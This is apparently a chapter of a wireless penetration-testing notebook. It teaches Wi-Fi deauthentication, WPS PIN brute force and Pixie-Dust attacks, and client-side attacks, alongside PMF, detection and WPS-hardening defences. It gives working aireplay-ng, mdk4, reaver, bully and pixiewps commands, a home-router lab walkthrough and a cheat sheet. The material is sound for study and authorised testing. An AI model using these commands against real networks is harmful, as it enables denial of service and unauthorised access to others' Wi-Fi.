





This is Chapter 5 of the Wireless notebook. The earlier chapters attacked the *network's* secret — Chapter 2 captured the four-way handshake with aircrack-ng, Chapter 3 grabbed a clientless PMKID, and Chapter 4 impersonated the whole network with an evil twin. This chapter is about three smaller, sharper tools that keep coming up in real engagements and that every one of those earlier attacks quietly relied on: the **deauthentication frame** (the "kick a device off Wi-Fi" primitive), **WPS** (the convenience feature that hands you the Wi-Fi password if you're patient — or, with Pixie-Dust, in seconds), and **client-side attacks** (going after the phone or laptop instead of the router).

These three belong together because they all attack *the client's relationship with the network* rather than the encryption itself. Deauth manipulates when and how a client connects; WPS bypasses the passphrase entirely through a side door; client-side attacks treat the device as the target. If you only ever learn "capture handshake, crack passphrase," you will be stuck the moment the passphrase is strong — and these techniques are how you keep going.

Everything here is **authorised-testing-only**. Deauthing devices you don't own is illegal (in the US it's both a Computer Fraud and Abuse Act problem and an FCC "intentional interference" problem — the FCC has fined venues over a million dollars for exactly this), and brute-forcing someone else's WPS PIN is unauthorised access. Build the lab in the WPS section against a router you own and practise there.

---

## Part 1: The Deauthentication Frame — What It Actually Is

Start from zero. When your phone is connected to Wi-Fi, it and the access point (AP) constantly exchange three broad *types* of 802.11 frame:

- **Data frames** — your actual traffic (web pages, video), encrypted under WPA2/WPA3.
- **Control frames** — tiny coordination frames (acknowledgements, "clear to send").
- **Management frames** — the frames that *set up and tear down* the connection: beacons ("I'm here, my name is CorpWiFi"), probe requests/responses ("is CorpWiFi here?"), association ("let me join"), and — the star of this section — **deauthentication** and **disassociation** ("you are now disconnected").

A **deauthentication frame** is a management frame whose entire job is to say "this station is no longer authenticated — the session is over." It carries a *reason code* (e.g. `7 = Class 3 frame received from nonassociated station`, `1 = unspecified`) and, being a management frame in the original 802.11 design, it is **completely unencrypted and unauthenticated**. There is no signature, no key, nothing that proves who sent it.

That is the whole vulnerability in one sentence: **anyone in radio range can forge a deauth frame that claims to be from the AP (or from the client) and the target will honor it and disconnect.** You don't need the Wi-Fi password. You don't need to be connected. You just need a wireless card that can inject frames and the target's MAC address, both of which are visible in the air.



**Why does 802.11 even have deauth, if it's so abusable?** Because legitimately, APs and clients need to end sessions cleanly: a client roaming to a better AP, an AP shedding an idle client, a network kicking a misbehaving device. The designers in the 1990s simply didn't anticipate cheap injection-capable radios and treated management frames as trusted. Fixing it took until **802.11w (2009)**, covered in Part 3.

**Plain-language analogy:** imagine a bouncer (the AP) who only recognizes guests by the color shirt they're wearing (the MAC address), and anyone can shout "the manager says you have to leave" in the manager's voice with no way to check. That's an unprotected deauth.

---

## Part 2: Deauth Attacks in Practice — aireplay-ng and mdk4

The deauth primitive shows up three ways on real engagements, and understanding *why you're deauthing* matters more than the command.

**Use 1 — Force a handshake so you can capture it (the Chapter 2 workflow).** A strong WPA2 passphrase is uncrackable, but you can only *try* to crack it if you captured a four-way handshake, and a handshake only happens when a client connects. If everyone's already connected and idle, you deauth one client; it reconnects; you capture the handshake it produces. Deauth here is a means to an end.

**Use 2 — Denial of service.** Continuously deauthing knocks a device (or an entire network) offline for as long as you transmit. This is rarely the *goal* of a pentest, but it's a finding (availability), and it's the exact behavior the FCC fines venues for.

**Use 3 — Herding a client onto an evil twin (Chapter 4).** Deauth the victim off the real AP so that when it re-scans it roams to your louder rogue AP.

### The tool from scratch: aireplay-ng

`aireplay-ng` is part of the aircrack-ng suite (Chapter 2) and is the standard frame-injection tool. Before it works you need your adapter in **monitor mode** (a mode where the card listens to/injects raw 802.11 frames instead of acting as a normal client):

```bash
sudo airmon-ng check kill      # stop NetworkManager/wpa_supplicant grabbing the card
sudo airmon-ng start wlan0     # creates wlan0mon in monitor mode
```

Find the target's BSSID (the AP's MAC), its channel, and a connected client's MAC:

```bash
sudo airodump-ng wlan0mon                 # survey all networks -> note BSSID + CH
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF wlan0mon
#   BSSID              STATION            PWR  ...   <- STATION column = connected clients
```

Now the deauth. **Targeted** (kick one specific client — quieter, preferred, and what you want for handshake capture):

```bash
sudo aireplay-ng --deauth 5 -a AA:BB:CC:DD:EE:FF -c 11:22:33:44:55:66 wlan0mon
```

Every part explained:

| Token | Meaning |
|---|---|
| `--deauth 5` | Send 5 deauth "bursts" (each burst = several frames both directions). `0` = continuous/unlimited. |
| `-a AA:BB:...` | The **AP** BSSID — the access point involved |
| `-c 11:22:...` | The **client** (station) to disconnect. Omit `-c` to broadcast to *all* clients. |
| `wlan0mon` | The monitor-mode interface transmitting |

**Broadcast** (kick everyone — noisy, often less reliable because broadcast deauth is more widely ignored by modern clients):

```bash
sudo aireplay-ng --deauth 0 -a AA:BB:CC:DD:EE:FF wlan0mon    # no -c = all clients
```

You must be **locked to the AP's channel** — if `airodump-ng` is channel-hopping, injection lands on the wrong channel and nothing happens. Lock it with `-c 6` (or set the monitor iface channel with `iw dev wlan0mon set channel 6`).

### The heavier tool: mdk4

`mdk4` (the successor to mdk3) is a Wi-Fi stress/attack tool that does bulk management-frame floods more aggressively than aireplay-ng, including a deauth/disassoc "amok" mode:

```bash
sudo apt install -y mdk4
# 'd' = deauth/disassoc amok mode; -b blacklist a BSSID, -c pin channel
sudo mdk4 wlan0mon d -c 6 -B AA:BB:CC:DD:EE:FF
```

mdk4 is useful when you want sustained disruption or to test a WIDS's deauth-flood detection, but for surgical handshake capture, targeted `aireplay-ng` is cleaner.

**Red team:** deauth is your reconnection lever — pair a single targeted `--deauth 5` with a running `airodump-ng -w capture` to grab a handshake in seconds, or feed the reconnection into an evil twin (Chapter 4). Keep bursts small and targeted to stay quiet and to avoid a needless outage that gets you noticed. **Blue team:** a burst of deauths is one of the loudest, easiest-to-detect wireless events (Part 3). **CTF:** wireless CTF challenges frequently hand you a `.pcap` containing a deauth followed by a handshake and ask you to crack it — recognizing the deauth (`wlan.fc.type_subtype == 0x0c`) tells you where the handshake is. **Bug bounty:** essentially never in scope — RF attacks aren't part of web/app programs; the honest exception is IoT/hardware programs where a device's Wi-Fi behavior is explicitly listed.

---

## Part 3: Defending Against Deauth — 802.11w / PMF

Because deauth underpins so much (handshake capture, evil-twin herding, DoS), the defense matters as much as the attack.

**802.11w — Protected Management Frames (PMF).** Ratified in 2009, 802.11w cryptographically protects a subset of management frames — critically deauth and disassoc — so a receiver can verify the frame really came from the party it claims. A forged deauth with a spoofed source MAC fails the integrity check and is **silently dropped**. The attack simply stops working.

PMF has three modes on the AP:

| Mode | hostapd setting | Effect |
|---|---|---|
| Disabled | `ieee80211w=0` | Legacy — deauth attacks work |
| Optional/Capable | `ieee80211w=1` | Protects clients that support PMF; legacy clients still vulnerable |
| Required | `ieee80211w=2` | All clients must use PMF — strongest; forged deauth is useless |

**WPA3 mandates PMF**, and WPA2 has supported it for years — so "enable WPA3, or at least set PMF required on WPA2" is the concrete fix. This is why Chapters 3–4 kept saying "PMF kills this": on a PMF-required network, deauth-driven handshake forcing and evil-twin herding both collapse, and the attacker is pushed toward passive capture or being physically louder.

**Detection (blue team) — deauth floods are easy to spot** because legitimate deauths are rare and a flood is not:

```bash
# live, in monitor mode:
tshark -i wlan0mon -Y "wlan.fc.type_subtype == 0x0c"     # deauth frames
tshark -i wlan0mon -Y "wlan.fc.type_subtype == 0x0a"     # disassoc frames
# from a saved capture, count deauths per source:
tshark -r cap.pcap -Y "wlan.fc.type_subtype==0x0c" -T fields -e wlan.sa | sort | uniq -c | sort -rn
```

A WIDS/WIPS (Kismet open-source, or Cisco/Aruba/Meraki "air marshal") alerts on deauth rate thresholds and can correlate "deauth flood → clients re-associate to an unknown BSSID" as an evil-twin signature. A sudden spike of deauths from one source MAC to many stations is the classic pattern.



---

## Part 4: WPS — the Convenience Feature That Became a Backdoor

**What WPS is.** Wi-Fi Protected Setup (WPS), introduced in 2006, exists to solve a real usability problem: typing a long WPA2 passphrase into a printer or smart plug with no keyboard is painful. WPS lets a device join "easily" via one of a few methods — most importantly an **8-digit PIN** printed on the router, or a **push-button (PBC)** where you press a button on the router and the device within two minutes. Under the hood, when a device (the *enrollee*) proves it knows the PIN to the router (the *registrar*), the router simply *hands over the real WPA2 passphrase*. That last part is the crux: **beat WPS and you don't crack anything — the router gives you the actual PSK.**

**The fatal design flaw in the PIN.** The PIN is 8 digits, which sounds like 100,000,000 possibilities. But two design choices destroy that:

1. **The 8th digit is a checksum** of the first seven, so it carries no entropy — 10,000,000 real possibilities.
2. **The router validates the PIN in two halves.** It checks the first 4 digits and the last 4 digits *separately*, telling the attacker (via the EAP messages) whether the first half was correct before the second half is even sent. So instead of one 7-digit search, you have a 4-digit search (10,000 options) plus a 3-digit search (1,000 options, since the last digit is the checksum) = **at most 11,000 tries**, not tens of millions.



11,000 guesses at a few seconds each is a few hours of online brute force — and, as we'll see in Part 6, **Pixie-Dust** often reduces it to seconds by attacking the math instead of guessing.

**First step always: is WPS even on?** Enumerate with `wash` (ships with reaver):

```bash
sudo wash -i wlan0mon
#  BSSID              Ch  RSSI  WPS  Lck  ESSID
#  AA:BB:CC:DD:EE:FF   6  -42   2.0  No   HomeLab-2G     <- WPS enabled, not locked
#  ...
```

Columns that matter: **WPS** (version — presence means WPS is on), and **Lck** (locked). `Lck = Yes` means the router has rate-limited/locked WPS after failed attempts (a partial defense, Part 8) — online brute force will crawl or stall, though Pixie-Dust may still work because it needs only one exchange.

---

## Part 5: Online WPS PIN Brute Force — Reaver and Bully

### Reaver from scratch

**What it is.** `reaver` is the original WPS PIN brute-forcer: it repeatedly initiates the WPS "registrar" exchange, trying PINs and using the half-validation leak to converge in ≤11,000 attempts. Install and run:

```bash
sudo apt install -y reaver          # includes wash
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -vv
```

Flags explained:

| Flag | Meaning |
|---|---|
| `-i wlan0mon` | Monitor-mode interface |
| `-b AA:BB:...` | Target AP BSSID (from `wash`) |
| `-c 6` | Channel (avoids slow hopping) |
| `-vv` | Verbose — shows each PIN attempt and the % complete |
| `-K 1` | Run **Pixie-Dust** instead of brute force (Part 6) — the big one |
| `-d 15` | Delay (seconds) between attempts — slow down to dodge lockouts |
| `-L` | Ignore locked state (try anyway) |
| `-p 12345670` | Try a specific/known PIN directly |

What you'll see during a real online brute force:

```
[+] Waiting for beacon from AA:BB:CC:DD:EE:FF
[+] Associated with AA:BB:CC:DD:EE:FF
[+] Trying pin 12345670
[+] 0.02% complete @ ... (3 seconds/pin)
[+] Trying pin 00005678
...
[+] Pin cracked in 4 hours, 1 attempts
[+] WPS PIN: '12345670'
[+] WPA PSK: 'SuperSecretPSK2026'          <- the router just handed us the real passphrase
[+] AP SSID: 'HomeLab-2G'
```

That `WPA PSK` line is the entire point: no dictionary, no GPU, no handshake — the router disclosed the passphrase because we proved knowledge of the WPS PIN.

### Bully — the leaner reimplementation

`bully` does the same online brute force with a smaller, sometimes more robust codebase, better handling of certain flaky routers and lockout states:

```bash
sudo apt install -y bully
sudo bully wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -d -v 3
# -d = also attempt Pixie-Dust-style, -v 3 = verbosity; -L handles lockouts, -B for brute
```

When do you pick which? Reaver is the default and has the mature Pixie-Dust implementation; Bully is the fallback when Reaver stalls on a particular chipset or lockout behavior. On an engagement you'll often try Reaver `-K 1` (Pixie) first, then Reaver brute, then Bully.

**Red team:** WPS is a shortcut around an otherwise-strong passphrase — always `wash` a target's APs early; a single WPS-enabled SOHO router can hand you the PSK that then unlocks everything behind it. **CTF:** WPS challenges usually give you a capture or a lab AP and expect the Reaver/Pixie flow. **Blue team:** repeated WPS registrar attempts are detectable in AP logs and by WIDS as an anomalous burst of EAP-WSC exchanges. **Bug bounty:** not applicable to standard programs (RF/physical), with the same IoT-hardware-program caveat as deauth.

---

## Part 6: Pixie-Dust — the Offline Attack That Cracks WPS in Seconds

Online brute force takes hours and is defeated by lockouts. **Pixie-Dust** (Dominique Bongard, 2014) is far nastier: it's an **offline** attack that, on vulnerable chipsets, recovers the PIN from a *single* WPS exchange in seconds — no thousands of guesses.

**How it works, in plain terms.** During the WPS handshake the registrar (router) proves it knows the PIN by sending hashes (`E-Hash1`, `E-Hash2`) that are built using two random numbers it generated (`E-S1`, `E-S2`, the "nonces"). The security assumption is that those nonces are truly random and secret. On many routers (notably older Ralink, Broadcom, and Realtek chipsets) the random number generator is **broken** — the nonces are zero, or trivially predictable, or derived from a weak seed. If you can guess/derive `E-S1` and `E-S2`, you can take the hashes the router already sent you in one exchange and **compute the PIN offline** by brute-forcing only the tiny keyspace of the PIN halves against known nonces — instantly.



Running it is just one flag on Reaver:

```bash
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -K 1 -vv
# -K 1 triggers the Pixie-Dust attack via the bundled 'pixiewps'
```

Under the hood Reaver captures the exchange and calls **pixiewps** (the actual cracker). You can also run pixiewps manually with values Reaver/Bully print (`--pke`, `--pkr`, `--e-hash1`, `--e-hash2`, `--authkey`, `--e-nonce`):

```bash
pixiewps --pke <..> --pkr <..> --e-hash1 <..> --e-hash2 <..> --authkey <..> --e-nonce <..>
# [+] WPS pin: 12345670    (seconds later, if the chipset's RNG is weak)
```

Sample success:

```
[Pixie-Dust]
 [+] E-Hash1: ...
 [+] E-Hash2: ...
 [Pixie-Dust] [+] WPS pin: 12345670
[Reaver] [+] WPA PSK: 'SuperSecretPSK2026'
```

**Why this changed everything:** it turned WPS from "a few hours of noisy online guessing that lockouts can stop" into "one packet exchange, cracked offline, lockouts irrelevant." A huge swath of consumer routers shipped with vulnerable RNGs, which is why the universal advice became **turn WPS off entirely** (Part 8). Not every router is vulnerable — modern chipsets with proper RNGs resist Pixie-Dust, and you fall back to online brute force (or give up if WPS is off/locked).

---

## Part 7: WPS Lab — From wash to PSK (on your own router)

Fully reproducible against a router **you own** with WPS enabled. Target: your home router; attacker: Kali with an injection-capable adapter (AR9271/RT5370 etc.).

> Scope: only your own AP. WPS brute force against another party's router is unauthorized access.

**Step 1 — monitor mode and survey**

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0                       # -> wlan0mon
sudo wash -i wlan0mon                            # find your AP, confirm WPS on, note Ch + BSSID + Lck
```

**Step 2 — try Pixie-Dust first (fast path)**

```bash
sudo reaver -i wlan0mon -b <YOUR_BSSID> -c <CH> -K 1 -vv
# if the chipset RNG is weak, PIN + PSK appear within seconds
```

**Step 3 — fall back to online brute force if Pixie fails**

```bash
sudo reaver -i wlan0mon -b <YOUR_BSSID> -c <CH> -vv -d 10 -L
# -d 10 spaces attempts to survive rate-limiting; -L ignores lock state
# expect this to run for minutes to hours; reaver saves progress and resumes
```

If Reaver stalls on your chipset, swap to Bully:

```bash
sudo bully wlan0mon -b <YOUR_BSSID> -c <CH> -v 3
```

**Step 4 — verify the recovered PSK**

The real proof is connecting (or validating against a captured handshake as in Chapter 2/4):

```bash
nmcli dev wifi connect "HomeLab-2G" password "SuperSecretPSK2026"   # confirms the PSK is real
```

**What you demonstrated:** even a 30-character random WPA2 passphrase — completely safe from Chapters 2–3 — was handed over by the router because WPS was left on and (for Pixie) the chipset RNG was weak. This is why "strong passphrase" is necessary but not sufficient.

---

## Part 8: Defending WPS

The guidance is refreshingly simple:

- **Turn WPS off.** This is the single most effective step and the near-universal recommendation. If devices need onboarding, use the WPA2/WPA3 passphrase or QR-based onboarding instead. Verify with `wash` that your AP no longer advertises WPS.
- **If you truly cannot disable it, use push-button (PBC) only, never PIN**, and prefer routers whose WPS implementation isn't Pixie-Dust-vulnerable (modern chipsets with proper RNGs). PBC still has a small window risk but no PIN keyspace to brute.
- **Rely on lockout as a stopgap, not a fix.** Many routers lock WPS after N failed PINs (`Lck = Yes` in wash). This slows *online* brute force but does **nothing against Pixie-Dust**, which needs only one exchange. Treat lockout as speed-bump, not protection.
- **Blue-team detection:** watch AP/controller logs for repeated WPS registrar/EAP-WSC failures and WIDS alerts on WPS exchange floods. A device repeatedly initiating WPS registration is almost never legitimate.
- **Upgrade to WPA3**, which deprecates the WPS PIN model in favor of Wi-Fi Easy Connect (DPP, QR-code/public-key onboarding) — no PIN keyspace, no passphrase disclosure.

---

## Part 9: Client-Side Wireless Attacks — Targeting the Device, Not the AP

Everything above (mostly) points at the AP. **Client-side attacks** flip the target to the *device* — the phone, laptop, printer, or IoT gadget. These matter because a device is often the weakest and most mobile part of a wireless environment, and because you don't always have a network to attack — sometimes you just have people walking around with radios in their pockets.

### 9.1 Probe-request and Preferred-Network-List (PNL) leakage

As covered in Chapter 4, devices historically broadcast **probe requests** naming networks they remember (their PNL): "is `HomeNet` here? is `Marriott_GUEST` here? is `Airport_Free_WiFi` here?" Anyone listening can harvest these.

```bash
# passively collect probe requests and the SSIDs devices are looking for:
sudo airodump-ng wlan0mon                             # watch the "Probes" column
# or precisely with tshark:
sudo tshark -i wlan0mon -Y "wlan.fc.type_subtype==0x04" \
  -T fields -e wlan.sa -e wlan_mgt.ssid 2>/dev/null   # source MAC + probed SSID
```

**Why this is powerful:** a device's PNL is a fingerprint of where it's been. `HomeNet` + `AcmeCorp` + `Heathrow_WiFi` narrows down a person's home, employer, and travel. This is used for **physical/OSINT profiling** and to seed **KARMA/MANA** (Chapter 4) — you now know exactly which fake SSIDs will lure that device. Privacy researchers and retail "Wi-Fi analytics" have long abused this for tracking.

**Blue team / privacy defense — MAC randomization.** Modern iOS (14+) and Android (10+) send probe requests using a **random, rotating MAC address** rather than the real hardware MAC, and largely **stopped broadcasting the full PNL** (they probe more with broadcast/null SSID). This breaks naïve device tracking and blunts KARMA. It's imperfect — randomization can leak on association, some elements are still fingerprintable, and older/IoT devices don't do it — but it's a real, deployed improvement. **Users:** "forget" networks you won't revisit to shrink your PNL; disable auto-join for open networks.

### 9.2 Grabbing a client-side handshake / PMKID

You don't need the AP to cooperate to get crackable material — you need the *client* to (re)authenticate. Deauth a client (Part 2), let it reconnect, and capture its four-way handshake (Chapter 2). Against roaming clients you can also opportunistically capture handshakes as devices move between APs. The client is the trigger; the deauth is the nudge. This is the direct link between this chapter's Part 2 and the offline cracking of Chapters 2–3.

### 9.3 Open networks: MITM and traffic theft

On an **open** (unencrypted) or captive-portal network — coffee shops, hotels, airports, conference guest Wi-Fi — there is no link-layer encryption, so any device in range can passively sniff other clients' traffic and actively man-in-the-middle it. Historically this meant stealing session cookies over plain HTTP (the "Firesheep" era). Two things changed the picture:

- **HTTPS everywhere + HSTS** means most sensitive traffic is TLS-encrypted end-to-end, so passive sniffing on open Wi-Fi yields far less than it used to, and active MITM triggers certificate warnings on HSTS-preloaded sites (you can't transparently impersonate `https://` sites without a trusted cert — see Chapter 4 Part 4.3).
- **OWE (Opportunistic Wireless Encryption / "Enhanced Open", WPA3-era)** encrypts even open networks at the link layer, removing the passive-sniffing payoff. Where deployed, it kills the classic open-network attack.

Still, plenty of traffic leaks metadata (SNI, DNS unless DoH/DoT, plain-HTTP endpoints, app APIs that skip cert pinning), so on an authorized test an open network is still worth analyzing. **Practical MITM tooling** (bettercap/ettercap, ARP spoofing, DNS spoofing, SSL-strip against non-HSTS sites) is covered in the network-attacks chapters; on wireless the enabler is simply "everyone shares one open medium."



### 9.4 Where client-side attacks fit for each practitioner

**Red team:** client-side is how you operate when there's no crackable AP — profile people via probe leakage, herd a target device to a rogue AP (Chapter 4), or capture a handshake by nudging one client. On a physical engagement, the humans and their devices are the attack surface. **Blue team:** deploy MAC randomization (mostly automatic now), push HTTPS/HSTS and consider OWE for guest Wi-Fi, and use WIDS to catch the deauth/rogue-AP steps client-side attacks depend on. **CTF:** wireless categories give you captures full of probe requests (extract the "flag SSID"), handshakes to crack, or open-network pcaps to mine for credentials/cookies. **Bug bounty:** as before, largely out of scope for RF itself; the crossover is that the *web* skills (session/cookie handling, HSTS, TLS validation) you use to reason about open-Wi-Fi risk are exactly the skills that *do* pay out on web programs.

---

## Part 10: Final Revision / Summary

- A **deauth frame** is an unauthenticated 802.11 management frame that says "you're disconnected." Anyone in range can forge one with a spoofed MAC — no password needed. It powers handshake capture, DoS, and evil-twin herding. **802.11w/PMF (mandatory in WPA3) cryptographically protects it, dropping forged deauths** — the definitive fix. Deauth floods are among the easiest wireless events to detect.
- **WPS** was meant to make joining easy; instead its **8-digit PIN** (last digit a checksum, validated in two halves) collapses to **≤11,000 online guesses**, and beating it makes the router **hand over the real WPA2 passphrase** — no cracking required. `wash` finds WPS-enabled APs; `reaver`/`bully` brute-force the PIN.
- **Pixie-Dust** (`reaver -K 1` → `pixiewps`) is an **offline** attack exploiting weak WPS registrar nonces (broken RNGs on many chipsets), recovering the PIN from a **single exchange in seconds**, immune to lockouts. The fix is blunt: **disable WPS**; if impossible, PBC-only on non-vulnerable hardware; upgrade to WPA3/DPP.
- **Client-side attacks** target the device: **probe/PNL leakage** enables tracking and seeds KARMA (defended by MAC randomization + small PNLs); **deauth-then-capture** turns a client into crackable material; **open-network MITM** steals traffic (defended by HTTPS/HSTS and OWE).
- Throughout, the theme is the same: a strong passphrase protects the *encryption*, but deauth, WPS, and client-side attacks route *around* the encryption — so the real defenses are **PMF/WPA3, disabling WPS, and hardening the client**.

---

## Part 11: Cheat Sheet / Quick Reference

**Deauth**

```bash
sudo airmon-ng check kill && sudo airmon-ng start wlan0
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF wlan0mon      # find clients
sudo aireplay-ng --deauth 5 -a <BSSID> -c <CLIENT> wlan0mon   # targeted (preferred)
sudo aireplay-ng --deauth 0 -a <BSSID> wlan0mon               # broadcast (all clients)
sudo mdk4 wlan0mon d -c 6 -B <BSSID>                          # heavy flood
```

**Detect deauth (blue team)**

```bash
tshark -i wlan0mon -Y "wlan.fc.type_subtype==0x0c"           # deauth
tshark -r cap.pcap -Y "wlan.fc.type_subtype==0x0c" -T fields -e wlan.sa | sort | uniq -c | sort -rn
```

**WPS**

```bash
sudo wash -i wlan0mon                                         # enumerate WPS APs (WPS/Lck cols)
sudo reaver -i wlan0mon -b <BSSID> -c <CH> -K 1 -vv           # Pixie-Dust (try first)
sudo reaver -i wlan0mon -b <BSSID> -c <CH> -vv -d 10 -L       # online brute (fallback)
sudo bully  wlan0mon   -b <BSSID> -c <CH> -v 3                # alt brute-forcer
